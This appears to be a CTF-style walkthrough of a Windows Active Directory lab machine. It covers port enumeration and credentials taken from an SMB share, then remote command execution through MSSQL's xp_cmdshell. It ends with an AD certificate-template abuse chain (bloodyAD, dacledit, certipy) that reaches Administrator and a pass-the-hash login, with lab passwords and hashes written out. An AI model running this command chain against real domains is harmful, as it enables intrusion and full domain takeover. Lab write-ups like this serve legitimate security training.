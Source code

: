 ```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```

# ENUMERATION
---

## OPEN PORTS
---



| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |


| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn_http   |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

# RECONNAISSANCE
---

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](cybersecurity/images/Pasted%2520image%252020250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](cybersecurity/images/Pasted%2520image%252020250114171518.png)

We have two files, let's download them both and check the contents:

![](cybersecurity/images/Pasted%2520image%252020250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](cybersecurity/images/Pasted%2520image%252020250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

# EXPLOITATION
---

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](cybersecurity/images/Pasted%2520image%252020250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](cybersecurity/images/Pasted%2520image%252020250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](cybersecurity/images/Pasted%2520image%252020250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](cybersecurity/images/Pasted%2520image%252020250114174329.png)
![](cybersecurity/images/Pasted%2520image%252020250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](cybersecurity/images/Pasted%2520image%252020250114174929.png)

That's right, let's read the configuration file:

![](cybersecurity/images/Pasted%2520image%252020250114174959.png)


We got credentials for another user.
```


```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```


Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](cybersecurity/images/Pasted%2520image%252020250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:


![](cybersecurity/images/Pasted%2520image%252020250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](cybersecurity/images/Pasted%2520image%252020250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

# PRIVILEGE ESCALATION
---


For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```


So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)
Like that, we can read root flag:

![](cybersecurity/images/Pasted%2520image%252020250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```

